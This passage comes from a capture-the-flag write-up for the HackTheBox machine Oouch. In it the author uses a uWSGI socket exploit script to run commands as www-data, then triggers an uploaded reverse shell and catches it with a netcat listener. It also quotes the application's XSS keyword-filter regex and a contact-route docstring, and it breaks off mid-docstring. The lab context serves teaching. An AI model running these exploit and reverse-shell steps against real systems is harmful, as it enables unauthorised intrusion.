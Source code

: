 

So I edited the code to remove that import line, and re-uploaded it. Now
it works (proof of concept, output `id` to a file in `/tmp`):



    qtc@aeb4525789d8:~$ python /dev/shm/.d.py -u /tmp/uwsgi.socket -c 'id > /tmp/d' -m unix
    [*]Sending payload.

    qtc@aeb4525789d8:~$ cat /tmp/d 
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



#### Shell

Instead of `id`, I'll run the reverse shell I uploaded:



    qtc@aeb4525789d8:~$ python /dev/shm/.d.py -m unix -u /tmp/uwsgi.socket -c 'python /dev/shm/.rev.py'
    [*]Sending payload.



Immediately I get a shell:



    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.177] 56614
    bash: /root/.bashrc: Permission denied
    www-data@aeb4525789d8:/code$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



## Shell as root on oouch

### Enumeration

The other thing I looked at in the code was how it was doing the WAF to
detect XSS attempts. After finding my way through the Flask application,
I found the routes in `/code/oouch/routes.py`. At the top of the code,
it adds the `dbus` location to the system path before importing the DBus
module:



    sys.path.insert(0, "/usr/lib/python3/dist-packages")
    import dbus



Further down the file, the route for `/contact` was interesting:



    primitive_xss = re.compile("(<script|<img|<svg|onload|onclick|onhover|onerror|<iframe|.md|alert|document\.)")
    ...[snip]...
    @app.route('/contact', methods=['GET', 'POST'])
    @login_required
    def contact():
        '''
        The contact page is required to abuse the Oauth vulnerabilities. This endpoint allows the user to send messages using a textfield.                                                                       
        The messages are scanned for valid url's and these urls are saved to a file on disk. A cronjob will view the files regulary and                                                                          
        invoke requests on the corresponding urls.
